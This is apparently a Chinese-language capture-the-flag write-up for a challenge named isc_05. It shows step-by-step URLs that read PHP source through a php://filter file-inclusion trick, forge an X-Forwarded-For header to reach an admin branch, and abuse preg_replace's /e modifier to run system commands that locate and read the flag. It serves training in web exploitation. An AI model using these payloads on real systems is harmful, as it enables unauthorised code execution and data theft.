

[toc]


### isc_05

> 检索网页 发现只有一个页面可以打开 发现了类似文件包含的url
>
> 

可以猜测page是通过get传入了一个文件 ，所以尝试文件包含。又因为index.php页面存在异常 所以尝试读入index.php

#### 利用PHP伪协议来得到index.php的源码

**php://filter 参数**

| 名称                        | 描述                                                         |
| :-------------------------- | :----------------------------------------------------------- |
| *resource=<要过滤的数据流>* | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
| *read=<读链的筛选列表>*     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（_        |
| *write=<写链的筛选列表>*    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（_        |
| *<；两个链的筛选列表>*      | 任何没有以 *read=* 或 *write=* 作前缀 的筛选器列表会视情况应用于读或写链。 |

`http://159.138.137.79:59858/index.php?page=php://filter/read=convert.base64-encode/resource=index.php`

读出了base64{index.php}的代码，解码后：

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: '设备名', templet: '#nameTpl' },
                     { field: 'area', title: '区域' },
                     { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                     { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
        //监听导航点击
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {


if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}


//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}


?>

</body>

</html>

```

> 代码审计后看到了熟悉的xff，所以第一步肯定是抓包改包模拟内部测试人员。

#### 利用 preg_replace漏洞

[**preg_replace**](http://php.net/manual/zh/function.preg-replace.php)：(PHP 5.5)

**功能** ： 函数执行一个正则表达式的搜索和替换

**定义** ： `mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )`

搜索 **subject** 中匹配 **pattern** 的部分， 如果匹配成功以 **replacement** 进行替换

> - **$pattern** 存在 **/e** 模式修正符，允许代码执行
> - **/e** 模式修正符，是 **preg_replace()** 将 **$replacement** 当做php代码来执行

#### 抓包改包&利用get来构造参数

测试PHPinf0)

`http://159.138.137.79:59858/index.php?pat=/1/e&&rep=phpinfo()&&sub=1`

bp改包：`X-Forwarded-For: 127.0.0.1`



寻找flag：`(http://159.138.137.79:59858/index.php?pat=/1/e&&rep=system("find -name flag*“)&&sub=1`


***发现了flag的PHP文件***

> 通过`http://159.138.137.79:59858/index.php?pat=/1/e&&rep=system("cat  ./s3chahahaDir/flag/flag.php")&&sub=1`得到flag


